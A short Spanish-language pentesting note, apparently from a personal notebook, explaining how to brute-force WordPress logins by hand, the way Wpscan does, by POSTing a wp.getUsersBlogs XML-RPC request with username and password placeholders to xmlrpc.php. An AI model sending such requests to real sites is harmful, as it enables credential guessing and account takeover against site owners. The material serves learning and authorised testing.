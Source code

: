 ---------------------------
- Tags: #web #scripting #bash #herramientas #wordpress 
-------------

Si quisiéramos aplicar fuerza bruta en un [[WordPress]] de la misma forma que hace [[Wpscan]] pero de forma manual para descubrir credenciales válidas. sería necesario tramitar una petición por el método POST al archivo **xmlrpc.php** tramitando una estructura XML tal que así:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Usuario</value></param> 
<param><value>Contraseña</value></param> 
</params> 
</methodCall>
```
